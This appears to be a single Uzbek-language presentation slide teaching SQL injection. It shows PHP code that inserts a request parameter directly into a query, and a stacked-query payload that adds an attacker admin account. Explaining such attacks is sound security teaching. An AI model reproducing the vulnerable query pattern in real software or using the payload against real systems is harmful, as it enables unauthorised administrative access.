

# SQL-Injection
Buzg'unchilar SQL so'rovni ajratishlari ham mumkin (; belgisi yordamida). Masalan:
$id = $_REQUEST['id'];
$res = mysqli_query("SELECT * FROM news WHERE id_news = $id");
id o'zgaruvchiga quyidagi qiymat jo'natilsa:
	12;INSERT INTO admin (username, password) VALUES ('HaCkEr', 'foo');
SELECT * FROM news WHERE id_news = 12;
INSERT INTO admin (username, password) VALUES ('HaCkEr', 'foo');
Bunda buzg'unchi admin jadvaliga o'zi uchun username va password qo'shish imkoniga ega bo'ladi.